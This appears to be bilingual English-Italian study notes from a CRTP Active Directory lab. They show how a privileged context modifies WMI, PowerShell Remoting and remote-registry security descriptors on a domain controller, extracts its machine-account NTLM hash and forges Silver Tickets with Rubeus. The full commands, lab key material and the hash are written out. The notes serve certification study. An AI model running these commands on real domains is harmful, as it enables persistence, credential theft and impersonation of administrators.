

> [!INFO] Learning objectives
> 1. Modify security descriptors on `dcorp-dc` to get access using powershell remoting and WMI without requiring administrator access.
> 2. Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a `Silver ticket` attack to code execution with WMI.

> [!IMPORTANT] Where are we working?
> We start from our **Student VM**. 
> We already have access to the privileged `svcadmin` network authentication context from a previous learning objective. 
> We use that context to change permissions on **`dcorp-dc`**. We then return to a **normal `student555` shell** to check what our account can access.
  

> [!NOTE] 
> In questo laboratorio partiamo da un contesto privilegiato già ottenuto in precedenza. 
> Lo utilizziamo per cambiare alcune autorizzazioni su `dcorp-dc`, così da consentire a `student555` di utilizzare servizi remoti senza inserirlo nel gruppo Administrators locale. 
> 
>

# Attacks flow



  

> [!NOTE] 
> I tre meccanismi di autorizzazione sono diversi:
> 1. **WMI/DCOM ACL:** determina se possiamo accedere a un namespace WMI e compiere le operazioni consentite.
> 
> 2. **PowerShell Remoting endpoint ACL:** determina se possiamo aprire o usare un endpoint PowerShell remoto.
> 
> 3. **Remote Registry ACL:** riguarda accesso a oggetti e dati del registro di sistema; configurazioni troppo permissive possono esporre segreti.
>
> Nella fase finale studiamo **Silver Ticket** e differenze tra account macchina, chiavi Kerberos e ticket di servizio.

  

---
# 1. Use the previously obtained `svcadmin` context
Because our initial query produced no matching ACE, the lab now uses authentication material obtained in an earlier learning objective.
  
Back on our Student VM, we use the following  **command** to create a network authentication context associated with `svcadmin`:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We then prepare the shell created in the lab

```powershell
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat

. C:\AD\Tools\PowerView.ps1

. C:\AD\Tools\RACE.ps1
```

---

## 2. Modify the WMI security descriptors on `dcorp-dc`

Now we want to allow `student555` to access WMI remotely on the Domain Controller, even though this account is not a local administrator there.

From the **privileged `svcadmin` shell**, we use the RACE function:

```powershell
Set-RemoteWMI -SamAccountName student555 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

![[Pasted image 20261125164434.png]]

**Command breakdown**

| Parameter                    | Meaning                                                       |
| ---------------------------- | ------------------------------------------------------------- |
| `Set-RemoteWMI`              | RACE function that changes relevant WMI/DCOM access controls. |
| `-SamAccountName student555` | Identifies the principal receiving the permission.            |
| `-ComputerName dcorp-dc`     | Specifies the remote target.                                  |
| `-namespace 'root\cimv2'`    | Specifies the WMI namespace referenced in this exercise.      |
| `-Verbose`                   | Displays additional diagnostic messages.                      |

The result shows a  Security Descriptor: `(A;CI;CCDCLCSWRPWPRCWD;;;S-1-5-21-719815819-3726368948-3917688648-47195)`
- Basically we are imitating the machien administrator of `dcorp-dc`

The final SID identifies the security principal receiving the access-control entry; it belongs to `student555`.
  

> [!NOTE] 
> Su `dcorp-dc` modifichiamo le **ACL relative a WMI e DCOM**. 
> L'obiettivo è far sì che `student555` possa interrogare WMI da remoto senza essere inserito nel gruppo Administrators locale.
>
> Il testo `(...;S-1-5-21-...-47195)` è una **ACE** (Access Control Entry) in formato SDDL. 
> L'ultimo campo individua il SID dell'utente; la parte centrale codifica i diritti concessi. 
### 2.1 Verify WMI access as `student555`

Now we switch back to our **normal `student555` shell** and test whether our user can query the remote WMI namespace.

```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```
![[Pasted image 20261125164958.png]]
  
In the output, we receive properties such as:

```text
SystemDirectory : C:\Windows\system32
...
```


> [!NOTE] 
> Usiamo la shell normale di `student555` per verificare l'effetto dei permessi appena modificati. Se riceviamo i dati della classe `Win32_OperatingSystem`, abbiamo dimostrato **la lettura remota tramite WMI**.


---
  

## 3. Modify the PowerShell Remoting endpoint permission

> [!WARNING] 
> This attack using `Set-RemotePSRemoting` is unstable since August 2020
We also want to investigate another remote-access mechanism: PowerShell Remoting over WinRM.

This is separate from WMI/DCOM. 
We return to the **privileged `svcadmin` shell**, where `RACE.ps1` is available, and review the command :

```powershell
. C:\AD\Tools\RACE.ps1

Set-RemotePSRemoting -SamAccountName student555 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

```

![[Pasted image 20261125165615.png]]
- I/O error is normal. Don't worry
  

**What changes?**
The RACE function targets permissions on the remote PowerShell session configuration (the WinRM/PowerShell endpoint), instead of changing the WMI namespace ACL.


> [!NOTE] 
> Qui lavoriamo su **WinRM e sulle autorizzazioni dell'endpoint PowerShell**, non sui permessi del namespace WMI. 
> Un utente può essere autorizzato a collegarsi a uno specifico endpoint anche senza entrare nel gruppo Administrators, se la configurazione lo permette.

### 3.1 Verify PowerShell Remoting as `student555`

Now we return to a **normal `student555` shell** and test the remote session.

```powershell
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

![[Pasted image 20261125165703.png]]


> [!NOTE] 
>
> Se il comando termina correttamente, il server ha consentito l'esecuzione del semplice script block attraverso l'endpoint configurato.
>


---

## 4. Understand the Remote Registry permission change and the machine-account secret

Next, we investigate a different type of security descriptor: **permissions associated with the remote registry and its sensitive data**.

From the **privileged `svcadmin` shell**, we can run:

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student555 -Verbose
```

![[Pasted image 20261125165927.png]]

With RACE's remote-registry functionality we change the registry access permissions on the target machine.

> [!NOTE] 
> In questa fase il contesto privilegiato modifica autorizzazioni relative all'accesso al **registro di sistema del Domain Controller**. 
>

### 4.1 Inspect the result from the normal `student555` shell

Now we return to the **normal `student555` shell**, load RACE and inspect the outcome recorded in the lab:

```powershell
. C:\AD\Tools\RACE.ps1

Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

![[Pasted image 20261125170000.png]]

We retrieved thefollowing NTLM hash for the machine account `DCORP-DC$`:

```text
19d0dabe4bd080c448d8195179d5fe4c
```


---
## 5. Understand the Silver Ticket stage

At this point, the lab examines the impact of a compromised **service-account key** through the concept of a **Silver Ticket**.

A Silver Ticket is a forged Kerberos **service ticket (TGS)** for a particular service. It differs from a Golden Ticket, which concerns a forged **Ticket Granting Ticket (TGT)** using `krbtgt` key material.

For the WMI/DCOM scenario we need to have access on the services:
- `HOST/dcorp-dc.dollarcorp.moneycorp.local`
- `RPCSS/dcorp-dc.dollarcorp.moneycorp.local`

So, we have to do 2 Rubeus invocation on our `student555` machine

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:19d0dabe4bd080c448d8195179d5fe4c /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt


C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:19d0dabe4bd080c448d8195179d5fe4c /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```


> [!NOTE] 
>**Non esiste una regola universale secondo cui ogni operazione WMI richieda sempre esattamente due ticket**: dipende dal protocollo, dalla configurazione e dal servizio coinvolto.


### 5.1 Verify the WMI result 

Finally, we can check remote WMI access from the same shell where we generated the silver tickets:
  
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

![[Pasted image 20261125170722.png]]

The output again includes properties such as:

```text
SystemDirectory : C:\Windows\system32
```


> [!IMPORTANT] 
> This screenshot supports the conclusion that the tested shell could **query WMI remotely**.

> [!NOTE] 
> Nell'ultimo passaggio la richiesta WMI restituisce informazioni sul sistema operativo del Domain Controller. Quindi il contesto di autenticazione disponibile riesce a usare WMI.
>
> La frase originale *“Silver Ticket attack for WMI code execution”* è l'obiettivo dichiarato del Learning Objective, ma **lo screenshot e il comando qui riportati dimostrano una query di lettura**, non una prova diretta di esecuzione arbitraria di codice. È importante distinguerli quando prepariamo gli appunti e il report CRTP.

---
  ## 7. CRTP quick reference — important distinctions

| Topic                   | Remember                                                                                                    |
| ----------------------- | ----------------------------------------------------------------------------------------------------------- |
| `Set-RemoteWMI`         | Modifies WMI/DCOM-related access permissions; not equivalent to adding a local administrator.               |
| `gwmi`                  | A successful `Win32_OperatingSystem` query proves WMI read access, not arbitrary code execution.            |
| `Set-RemotePSRemoting`  | Changes a PowerShell remoting session configuration's security descriptor.                                  |
| `Invoke-Command`        | Tests execution through the remote PowerShell endpoint; authorization is endpoint-specific.                 |
| `Add-RemoteRegBackdoor` | Concerns remote registry permissions, not the AD domain object's replication ACL.                           |
| `DCORP-DC$`             | The Domain Controller machine account, distinct from `Administrator` and `krbtgt`.                          |
| NT hash / RC4 key       | Closely related in legacy Kerberos RC4-HMAC configurations, but not interchangeable terms in every context. |
| Silver Ticket           | Forged **service ticket**, usually scoped to a service principal.                                           |

